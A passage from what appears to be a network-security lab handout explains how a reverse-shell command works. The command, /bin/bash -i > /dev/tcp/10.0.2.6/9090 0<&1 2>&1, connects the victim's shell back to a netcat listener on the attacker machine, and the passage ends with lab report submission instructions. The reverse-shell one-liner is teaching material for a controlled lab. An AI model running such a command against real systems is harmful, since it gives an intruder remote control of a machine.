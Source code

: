 In summary, the command"`/bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1`"starts a `bash` shell on the server machine, with its input coming from a TCP connection, and output going to the same TCP connection. In our experiment, when the `bash` shell command is executed on `10.0.2.5`, it connects back to the `netcat` process started on `10.0.2.6`. This is confirmed via the"`Connection
from 10.0.2.5 ...`"message displayed by `netcat`.

## 11 Submission

You need to submit a detailed lab report, with screenshots, to describe what you have done and what you have observed. You also need to provide explanation to the observations that are interesting or surprising.
Please also list the important code snippets followed by explanation. Simply attaching code without any
explanation will not receive credits.


